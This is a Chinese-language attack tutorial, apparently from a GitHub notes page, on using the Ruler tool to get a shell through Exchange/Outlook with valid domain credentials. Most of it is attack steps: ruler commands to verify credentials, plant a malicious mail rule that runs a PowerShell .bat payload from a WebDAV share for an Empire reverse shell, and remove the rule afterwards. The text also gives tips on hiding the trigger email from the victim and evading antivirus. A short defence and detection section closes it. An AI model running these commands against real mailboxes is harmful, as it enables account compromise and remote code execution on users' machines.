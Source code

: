 ## Exchange服务


### 前期准备
* 安装[golang](https://github.com/golang/) 
* 安装[ruler](https://github.com/sensepost/ruler) 
* 有效的域用户凭证

-------
### 简介
Ruler是一款交互式的远程Exchange服务管理工具，其使用MAPI/HTTP或RPC/HTTP协议。主要是用来利用Outlook客户端的一些特性获取shell。

Ruler会尝试与Exchange服务连接，并使用Autodiscover服务来发现相关信息。

-------
### Ruler可以用来做些什么

Ruler可以用来做很多事情，下面将会列出它的主要功能，也将展示一种利用Ruler反弹shell的方法，仅需要一个有效的用户名和密码来登录Outlook就可以办到。这也是前面为什么我们要碰撞出有效的账户来，这对之后反弹shell非常有用。

办公少不了需要用邮箱，因为他们发文件发通知等需要。

* 枚举有效用户
* 创建新的恶意邮件规则
* 转储全局地址列表(GAL)
* 通过表单执行VBScript
* 通过Outlook主页执行VBScript

这些功能是不是很奈斯

**进攻前的检查**

关于如何查找邮件结构、添加dns记录等，这里就不详细概述了，留给读者去动手探索。

一旦我们知道了邮件的结构、如何添加了dns记录等信息，我们就可以从exchange服务器检查开始，检查我们是否能够与其通信，以及是否能够验证并打开邮箱。

下面的示例主要取决于你如何编译Ruler，不同操作可能有所不同。

`./ruler --email test@lab.local --verbose check`

执行后会提示输入密码，如果凭证有效，回看到提示说邮箱登录成功。


**查看现有规则**

`./ruler --email test@lab.local display`


**设置一个Empire会话监听**
这里不会深入探讨如何建立一个Empire或它的listener，你点击[chryzsh](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) 了解。我们应该生成一个.bat的powershell文件，并将其托管到webdav服务器上，而不是使用一个单例程序。

网上有很多关于如何快速建立webdav服务器的指南，细节请Google。

其价值在于可以通过压缩.bat文件，再通过webdav目录来调用，用于逃避AV检测。

以后我会更新这个方法。

**创建规则**


```
./ruler --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```
这个命令的作用是发送一封电子邮件到用户邮箱并触发我们的规则。

值得一提的是用户并不会看到这个邮件，因为它会自动删除的，所以我们不必担心被发现。

**删除&清理规则**
一旦执行将删除邮箱规则！！！

```
./ruler --email test@lab.local delete --name test
```

**如何防御Ruler的攻击**

1. 为所有用户启用多因素身份验证，特别是那些具有管理权限的用户。
2. 经常检查你的账户是否有非法活动。手动或者使用安全监视工具都行。防御可能没办法做到实时，但也回尽快发现，减少损失。

**如何检测Ruler的攻击**
最简单的方法是使用微软编写的检查脚本（运行需要管理员权限）

```
https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1
```
**写在最后**

Ruler是一个可以在网络上找到的用来反弹shell的好工具,这里介绍到的知识冰山一角,建议读者自行去探索该工具,也可以更好的理解和体验其强大之处。






